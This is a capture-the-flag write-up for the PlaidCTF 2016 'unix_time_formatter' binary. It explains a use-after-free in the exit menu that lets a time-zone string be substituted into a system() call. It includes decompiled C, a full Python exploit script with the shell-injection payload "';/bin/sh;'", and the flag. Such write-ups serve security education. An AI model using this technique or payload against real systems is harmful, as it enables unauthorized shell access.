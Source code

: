 ```yaml
---
layout: post
title: pctf 2016 unix_time_formatter writeup
category: writeup
---
```


this is simple formatter of unix time, and there are vulnerability in exit function.
```C
signed __int64 menu_exit()
{
  signed __int64 result; // rax@1
  __int64 v1; // rcx@3
  char s; // [sp+8h] [bp-20h]@1
  __int64 v3; // [sp+18h] [bp-10h]@1

  v3 = *MK_FP(__FS__, 40LL);
  wrapper_free((void *)qword_602118);
  wrapper_free(value);
  __printf_chk(1LL, "Are you sure you want to exit (y/N)? ");
  fflush(stdout);
  fgets(&s, 16, stdin);
  result = 0LL;
  if ( (s & 0xDF) == 'Y' )
  {
    puts("OK, exiting.");
    result = 1LL;
  }
  v1 = *MK_FP(__FS__, 40LL) ^ v3;
  return result;
}
```
If I goto exit, and choose "N", then I can reuse free chunks.
so other thing is find values which is given by malloc.

there is a function which set time zone, and it uses strdup.
it uses malloc inside. [man strdup](http://linux.die.net/man/3/strdup)

and there are print_time function, it calls system with filtered argument "value".
but we can bypass with use-after-free at previous code.

so exploit step is :

 1. write any value to "qword_602118" (this is time format value)
 2. free at exit
 3. overwrite string at set_timezone
 4. call system at print_time


This is my exploit code.

```python
import pwnbox


# PCTF{use_after_free_isnt_so_bad}

local = False

if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q unix_time_formatter_9a0c42cadcb931cce0f9b7a1b4037c6b')
else:
    p = pwnbox.pipe.SocketPipe('unix.pwning.xxx',9999)

payload = '\';/bin/sh;\''

def lobby():
    p.read_until('5) Exit.\n')
    p.read_until('>')


def set_timeFormat(s):
    p.write('1\n')
    p.read_until('mat:')
    p.write(s+'\n')
    lobby()

def set_time(d):
    p.write('2\n')
    p.read_until('time: ')
    p.write('%d\n' % d)
    lobby()

def exit(s):
    p.write('5\n')
    p.read_until(')?')
    p.write(s+'\n')
    lobby()

def set_timeZone(s):
    p.write('3\n')
    p.read_until('zone:')
    p.write(s+'\n')
    lobby()

if local:
    p.read_until('(gdb)')
    p.write('r\n')


lobby()
set_timeFormat('a'*len(payload))
set_time(1)
exit('N')
set_timeZone(payload)
p.write('4\n')
p.interact()
```
 


